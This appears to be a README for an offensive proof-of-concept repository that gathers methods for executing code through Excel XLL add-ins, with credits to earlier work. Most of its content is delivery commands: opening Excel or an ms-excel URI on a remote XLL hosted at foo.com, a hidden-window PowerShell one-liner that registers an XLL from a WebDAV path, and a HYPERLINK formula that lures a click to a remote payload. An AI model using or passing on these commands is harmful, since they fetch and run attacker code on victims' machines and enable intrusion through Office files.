 # xllpoc
## Code Exec via Excel
A small project that aggregates community knowledge for Excel XLL execution, via xlAutoOpen() or PROCESS_ATTACH. Not a new concept.

### Credit   
- EdParcell: https://github.com/edparcell/HelloWorldXll  
- MSDN: https://msdn.microsoft.com/en-us/library/office/bb687883.aspx  
- Ryan Hanson: https://gist.github.com/ryhanson/227229866af52e2d963cf941af135a52  
- Google Groups: https://groups.google.com/forum/#!msg/exceldna/d2ogsPkv6YM/NGnSrU9tmpMJ  
- MWR Labs: https://labs.mwrinfosecurity.com/blog/add-in-opportunities-for-office-persistence/
- @SubTee

### Getting Execution
Put your code in either,
```
dllmain.cpp
PROCESS_ATTACH

XLL_POC.cpp
xlAutoOpen()
```
Excel
```
Excel.exe http://foo.com/xll.xll
```
uri
```
ms-excel:ofe|u|http://foo.com/xll.xll
```
Everyone favourite oneliner
```
powershell -w hidden -c "IEX ((new-object -ComObject excel.application).RegisterXLL('\\webdavxll_poc.xll')"
```
Embedded in the Worksheet
```
=HYPERLINK("http://foo.com/xll.xll", "CLICK")
```

### To-Do

- Add x64 support
- ...
